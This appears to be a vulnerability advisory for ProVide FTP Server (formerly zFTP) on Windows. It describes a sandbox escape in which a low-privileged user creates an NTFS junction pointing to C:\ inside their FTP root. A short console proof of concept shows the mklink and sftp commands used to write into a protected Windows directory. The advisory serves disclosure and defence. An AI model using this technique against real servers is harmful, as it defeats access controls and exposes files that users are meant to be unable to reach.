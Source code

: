 # Jail Escape via Symlink

## Summary

It was identified that ProVide FTP Server (formerly zFTP) for Windows, doesn't enforce permission over Windows Symlinks or Junctions. As a result, a low privileged user (non-admin), can craft a Junction Link in a directory he has full control, breaking out of the sandbox.

## VulDB-Like Summary

A vulnerability has been found in ProVide FTP Server (formerly zFTP) for Windows up to v13.1 and classified as problematic. This vulnerability affects some unknown functionality. The manipulation with an unknown input leads to a sandbox bypass vulnerability. The CWE definition for the vulnerability is CWE-284. As an impact it is known to affect confidentiality, integrity, and availability.

The weakness was disclosed 04/06/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). It is possible to read the advisory at github.com. This vulnerability is known as CVE-2020-XXXX. The attack should be launched initiated locally. The exploitation needs multiple authentications to be performed. Technical details of the vulnerability are known, but there is no available exploit.

## Proof-of-Concept

#### User 1 - Low Privileged FTP User

Root Directory: C:\Users\lowpriv\Desktop\
Permission on Root Directory: 
* Files: Read, Write, Delete, Append 
* Dirs: List, Make, Delete, +Subdirs

#### User 2 - Low Privileged Windows User

Windows User: lowpriv
Standard User, no admin rights

```
C:\Users\lowpriv\Desktop> whoami
lowpriv
C:\Users\lowpriv\Desktop> mklink /J escape C:\
Junction created for escape <<===>> C:\
C:\Users\lowpriv\Desktop> mkdir C:\Windows\security\audit\pwnd
Access is denied.
C:\Users\lowpriv\Desktop> sftp lowpriv@127.0.0.1
Connected to lowpriv@127.0.0.1.
sftp> dir
Google Chrome.lnk  desktop.ini        escape
sftp> mkdir /escape/Windows/security/audit/pwnd
sftp> cd /escape/Windows/security/audit/pwnd
sftp> pwd
Remote working directory: /escape/Windows/security/audit/pwnd/
sftp>
```

## Remediation

No official fix currently exists for this vulnerability.

## References

* https://cwe.mitre.org/data/definitions/284.html
* https://cwe.mitre.org/data/definitions/501.html
* https://cwe.mitre.org/data/definitions/266.html 

